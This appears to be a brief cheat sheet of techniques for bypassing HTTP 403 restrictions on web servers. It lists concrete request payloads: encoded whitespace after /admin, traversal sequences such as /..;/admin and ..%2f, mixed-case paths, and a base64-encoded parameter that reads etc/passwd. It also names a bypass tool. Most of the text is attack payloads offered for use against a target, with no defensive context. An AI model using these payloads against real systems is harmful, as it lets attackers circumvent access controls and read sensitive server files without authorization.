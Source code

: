 # 403 Bypass

1- using space symbols  
exmaple:  
/admin -> 403  
/admin%09 -> 200  
/admin%20 -> 200  
  
2- use traversal  
Example:  
/admin -> 403  
/..;/admin -> 200  
  
you can fuzz with traversal sometimes that's end with results  
  
Example: /..;/FUZZ  

3 - mixed case

upload --> 403

uPlOaDs --> 200

---

https://target/api/admin/users/123 <-- blocked
https://target/api/fakepath/..%2f/admin/fakepath/..%2f/users/123. <-- Try this


---


url/?f=etc/passwd ==> 403

url/?f=L2V0Yy9wYXNzd2Q= ==> 200

---

Tools

403Jump

